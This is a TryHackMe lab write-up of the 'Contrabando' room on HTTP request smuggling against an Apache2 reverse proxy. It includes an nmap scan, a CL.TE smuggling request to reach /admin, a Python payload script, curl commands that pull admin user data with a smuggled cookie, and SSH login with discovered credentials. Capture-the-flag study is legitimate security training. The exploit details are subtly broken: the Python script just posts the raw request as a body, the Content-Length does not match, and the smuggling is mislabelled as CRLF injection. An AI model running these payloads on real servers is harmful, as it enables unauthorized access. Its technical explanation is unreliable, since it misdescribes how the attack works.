 ```yaml
---
title: "TryHackMe: Contrabando"
date: 2025-08-18
description: "Contrabando began with exploiting an HTTP Request Smuggling vulnerability via CRLF injection in Apache2 to bypass authentication and access restricted areas."
categories: ["TryHackMe"]
tags: ["web", "http-smuggling", "crlf-injection", "apache", "bypass"]
image: "/images/writeups/contrabando-thumb.jpg"
difficulty: "Hard"
platform: "TryHackMe"
author: "Adithya Kallaje"
---
```



![Contrabando Banner](/images/writeups/contrabando-banner.jpg)

## Overview

Contrabando is a hard-difficulty room that focuses on HTTP Request Smuggling attacks using CRLF injection techniques to bypass authentication mechanisms in Apache2.

## Reconnaissance

### Initial Scanning
```bash
nmap -sC -sV -A 10.10.x.x
```

**Services Discovered:**
- 22/tcp - SSH
- 80/tcp - Apache2 HTTP Server
- 443/tcp - HTTPS

### Web Application Analysis

The target runs a web application with:
- Authentication portal
- Restricted administrative areas
- Load balancer configuration

## HTTP Request Smuggling

### Understanding the Architecture

The application uses a reverse proxy setup:
- Frontend: Load balancer
- Backend: Apache2 server

This configuration is susceptible to HTTP Request Smuggling attacks.

### CRLF Injection Discovery

```http
POST /login HTTP/1.1
Host: 10.10.x.x
Content-Length: 56
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 10.10.x.x

```

### Exploitation Process

1. **Identify desync vulnerability**
2. **Craft malicious request**
3. **Bypass authentication**
4. **Access restricted areas**

```python
import requests

# Crafted request for smuggling
payload = """POST /login HTTP/1.1\r
Host: target.com\r
Content-Length: 56\r
Transfer-Encoding: chunked\r
\r
0\r
\r
GET /admin HTTP/1.1\r
Host: target.com\r
\r
"""

response = requests.post("http://10.10.x.x", data=payload)
```

## Authentication Bypass

### Smuggled Request Analysis

The smuggled request successfully bypassed:
- Session validation
- Access controls
- Authentication middleware

### Administrative Access

Once authenticated bypass was achieved:
```bash
# Access admin panel
curl -H "Cookie: session=smuggled_session" http://10.10.x.x/admin

# Extract sensitive data
curl -H "Cookie: session=smuggled_session" http://10.10.x.x/admin/users
```

## Post-Exploitation

### File System Access
- Configuration files
- User credentials
- Application secrets

### Privilege Escalation
```bash
# SSH access with discovered credentials
ssh admin@10.10.x.x

# Check privileges
sudo -l
```

## Impact Assessment

- **Authentication Bypass**: Complete
- **Data Exposure**: User credentials, application data
- **System Access**: SSH access gained
- **Privilege Level**: Administrative access

## Lessons Learned

- **HTTP Smuggling**: Critical vulnerability in proxy setups
- **CRLF Injection**: Powerful technique for request manipulation
- **Defense**: Proper proxy configuration is essential

## Mitigation Strategies

1. **Normalize HTTP requests**
2. **Use consistent parsing**
3. **Validate Content-Length**
4. **Implement strict HTTP parsing**

## Tools Used

- Burp Suite Professional
- Custom Python scripts
- HTTP Smuggling detection tools
- Nmap

---

**Difficulty**: Hard  
**Platform**: TryHackMe  
**Completion Date**: August 18, 2025
